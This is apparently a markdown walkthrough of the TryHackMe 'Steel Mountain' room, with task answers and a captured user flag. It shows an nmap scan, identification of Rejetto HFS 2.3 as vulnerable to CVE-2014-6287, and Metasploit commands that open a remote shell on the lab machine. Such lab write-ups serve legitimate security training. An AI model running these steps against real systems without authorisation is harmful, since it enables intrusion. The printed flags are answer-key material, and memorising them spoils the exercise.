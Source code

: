 # Steel Moutain Wlakthrough
### Link
- https://tryhackme.com/room/steelmountain
------------------------
### Task 1 : Introduction
- Who is the employee of the month?
    - Check the source code of the web page
    - [Steel_Moutain_1.png](picture: )
    - **Answer** : Bill Harper
------------------------
### Task 2 : Initial Access
- Scan the machine with nmap. What is the other port running a web server on?
    - sudo nmap -sC -sV -oN ./nmap_steelmountain_result 10.10.117.67
    - [Steel_Moutain_2.png](picture: ) , [Steel_Moutain_3.png](picture: )
    - **Answer** : 8080
- Take a look at the other web server. What file server is running?
    - From nmap scan, we know the port 8080 is used for another file server
        - Connect to [IP]:8080
        - Under Server Information, you have a link "HttpFileServer 2.3"
        - Click on this link and you are redirected to http://www.rejetto.com/hfs/
        - [Steel_Moutain_4.png](picture: )
        - **Answer**  : rejetto http file server
- What is the CVE number to exploit this file server?
    - Visit https://www.exploit-db.com/search
    - Search exploit for rejetto http file server 2.3
    - [Steel_Moutain_5.png](picture: ) , [Steel_Moutain_6.png](picture: )
    - **Answer** : 2014-6287
- Use Metasploit to get an initial shell. What is the user flag?
    - Start metasploit
        msfconsole
    - find the exploit
        search exploit rejetto
        [Steel_Moutain_7.png](picture: )
    - Select the exploit
        use [payload number]
        [Steel_Moutain_8.png](picture: )
    - Check the options
        options
        [Steel_Moutain_9.png](picture: )
    - Indicate the remote hosts ip and port (This server run on port 8080)
        set RHOSTS [IP]
        set RPORT [port]
        [Steel_Moutain_10.png](picture: )
    - Chenge the Local IP with your IP
        set LHOST [IP]
    - Execute
        run
        [Steel_Moutain_11.png](picture: )
    - Remeber, the machine is a Windows machine.Not all  Linux command work ^_^
    - Move to C:\Users\bill\Desktop
    - Open user.txt
    [Steel_Moutain_12.png](picture: )
    - **Answer** : ??b04763b6fcf51fcd7c13abc7db4fd365
